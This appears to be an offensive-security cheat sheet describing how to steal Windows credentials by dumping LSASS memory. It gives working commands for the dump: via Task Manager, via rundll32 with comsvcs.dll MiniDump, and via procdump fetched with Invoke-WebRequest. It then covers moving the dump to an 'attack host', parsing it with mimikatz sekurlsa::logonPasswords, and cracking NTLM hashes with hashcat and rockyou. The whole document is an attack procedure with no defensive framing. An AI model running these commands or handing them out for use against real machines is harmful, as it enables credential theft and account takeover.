 #### Extracting NTLM Hashes from LSASS Memory Dump

1. Dump LSASS Process Using Task Manager:
	- Method 1: Task Manager:
		1. Open Task Manager.
		2. Go to the Processes tab.
		3. Find and right-click on the Local Security Authority Process (lsass.exe).
		4. Select Create dump file.
		5. The dump file `lsass.DMP` will be created and saved in:
			```plaintext
			C:\Users\<logged_on_user>\AppData\Local\Temp
			```

	- Method 2: Using comsvcs.dll:
		1. Find the Process ID (PID) of the `lsass.exe` process:
			```powershell
			Get-Process lsass
			```
		2. Dump the `lsass.exe` memory using `rundll32.exe` and `comsvcs.dll`:
			```powershell
			rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\temp\lsass.dmp full
			```

	- Method 3: Using ProcDump:
		1. Download `procdump` from [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump):
			```powershell
			Invoke-WebRequest -Uri "http://live.sysinternals.com/procdump.exe" -OutFile "C:\Windows\Temp\procdump.exe"
			```
		2. Use `procdump` to extract the `lsass.exe` memory dump:
			```powershell
			procdump -accepteula -ma lsass.exe C:\temp\lsass.dmp
			```

2. Transfer `lsass.DMP` to Attack Host:
   Transfer the memory dump to the attack machine for analysis. Use secure methods like `SCP`, `SMB`, or any file transfer tool appropriate for the situation.

3. Extract NTLM Hashes from LSASS Dump Using Mimikatz:
   On your attack host, use `mimikatz` to extract NTLM hashes from the memory dump:
	```powershell
	.\mimikatz.exe "sekurlsa::minidump C:\temp\lsass.dmp" "sekurlsa::logonPasswords" exit
	```
   This command will parse the memory dump and retrieve stored credentials, including NTLM hashes, plain-text passwords (if available), and Kerberos tickets.

4. Offline NTLM Hash Cracking:
   After extracting the NTLM hashes, use tools like `hashcat` or `john` to crack them. The NTLM hash format extracted by Mimikatz looks like this: `username:rid:lmhash:nthash:::`.
   
   - Crack with Hashcat:
		```bash
		sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
		```
